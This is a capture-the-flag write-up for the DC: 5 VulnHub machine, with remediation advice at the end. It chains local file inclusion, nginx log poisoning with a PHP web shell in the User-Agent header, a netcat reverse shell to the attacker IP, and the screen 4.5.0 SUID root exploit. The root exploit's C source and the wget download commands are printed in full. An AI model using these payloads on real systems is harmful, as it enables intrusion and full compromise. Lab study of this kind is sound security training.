



# DC: 5 — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.1.108 |
| **Attacker IP** | 192.168.1.110 |
| **Difficulty** | Medium |
| **OS** | Linux (Debian/nginx) |
| **Goal** | root flag (`/root/thisistheflag.txt`) |
| **Source** | [HackingArticles](https://www.hackingarticles.in/dc-5-vulnhub-walkthrough/) |

## Attack Summary

DC: 5 is a Linux VM running an nginx web application with a contact form vulnerable to **Local File Inclusion (LFI)**. The rotating copyright year on `thankyou.php` reveals dynamic file inclusion. Combining LFI with **nginx log poisoning** achieves remote code execution. Privilege escalation exploits the **SUID bit on screen 4.5.0** (CVE/EDB-41154), a well-known local root exploit.

## Methodology

1. Network scan with nmap
2. Web enumeration, contact form analysis
3. LFI discovery and confirmation via `/etc/passwd`
4. Log poisoning through User-Agent injection
5. Reverse shell via log inclusion + cmd parameter
6. SUID enumeration, identification of screen 4.5.0
7. Compilation and transfer of EDB-41154
8. Root shell

---

## Step 1: Host Discovery

```bash
netdiscover -r 192.168.1.0/24
```

Identified target at `192.168.1.108`.

## Step 2: Port Scanning

```bash
nmap -A 192.168.1.108
```



Result: port **80/tcp** (HTTP/nginx) open.

## Step 3: Web Application Enumeration

Browse to `http://192.168.1.108`. The site has a contact form at `/contact.php`. After submission, the server redirects to `thankyou.php`. Refreshing this page repeatedly shows the copyright year alternating between **2019** and **2020**, indicating the year is pulled dynamically from an external file via a `file` (or equivalent) parameter.


## Step 4: LFI Discovery

Test the `file` parameter on `thankyou.php`:

```
http://192.168.1.108/thankyou.php?file=../../../../../etc/passwd
```

The server returns the contents of `/etc/passwd`, confirming **Local File Inclusion**.

Enumerate the nginx access log path:

```
http://192.168.1.108/thankyou.php?file=../../../../../var/log/nginx/access.log
```

The log renders in the browser, confirming it is readable by the web process.


## Step 5: Log Poisoning

Inject a PHP web shell into the nginx access log via the `User-Agent` header. Use Burp Suite to intercept any request to the target and replace the User-Agent:

```
User-Agent: <?php system($_GET['cmd']); ?>
```

Send the request. The payload is now written to `/var/log/nginx/access.log`.

## Step 6: Remote Code Execution

Include the access log through the LFI and pass a command:

```
http://192.168.1.108/thankyou.php?file=../../../../../var/log/nginx/access.log&cmd=id
```

Confirm the output shows `uid=33(www-data)`.

## Step 7: Reverse Shell

On the attacker machine, start a netcat listener:

```bash
nc -lvp 1234
```

Send the reverse shell payload through the `cmd` parameter (URL-encode as needed):

```
&cmd=nc -e /bin/bash 192.168.1.110 1234
```

A shell connects back. Upgrade to a TTY:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```



## Step 8: Privilege Escalation — screen 4.5.0 (EDB-41154)

Search for SUID binaries:

```bash
find / -perm -u=s -type f 2>/dev/null
```

Output includes `/bin/screen-4.5.0`. This version is vulnerable to a local privilege escalation (Exploit-DB 41154).

On the attacker machine:

```bash
searchsploit screen 4.5.0
searchsploit -m 41154
```

The exploit script requires compilation. Extract the C source files from `41154.sh` and save them:

```c
// libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```

```c
// rootshell.c
#include <stdio.h>
int main(void){
    setuid(0); setgid(0); seteuid(0); setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```

Compile on the attacker machine:

```bash
gcc -fPIC -shared -ldl -o libhax.so libhax.c
gcc -o rootshell rootshell.c
```

Serve files:

```bash
python -m SimpleHTTPServer 8000
```

Download to the target:

```bash
cd /tmp
wget http://192.168.1.110:8000/41154.sh
wget http://192.168.1.110:8000/libhax.so
wget http://192.168.1.110:8000/rootshell
chmod 777 41154.sh
./41154.sh
id
```

Output: `uid=0(root) gid=0(root)`

## Step 9: Root Flag

```bash
cd /root
ls
cat thisistheflag.txt
```



---

## Lessons Learned

- **LFI + log poisoning** is a classic chain: any log file written by the web server and readable through LFI can be poisoned via controllable HTTP headers (User-Agent, Referer, X-Forwarded-For).
- **SUID on legacy binaries**: `screen 4.5.0` has a known local root exploit. Regularly audit installed SUID binaries for known CVEs.
- **Rotating file inclusion parameters** are a hint to look for LFI; the copyright year changing on refresh shows a file is being pulled per request.

---

## Remediation

| Vulnerability | Fix |
|---|---|
| Local File Inclusion | Validate and whitelist allowed file names; never pass user input directly to include/require functions |
| Nginx log readable by www-data | Restrict log file permissions (750, owned by root:adm) |
| SUID on screen 4.5.0 | Remove unnecessary SUID bits; upgrade to a patched version |
| No input sanitization | Sanitize and escape all user-supplied data before use |
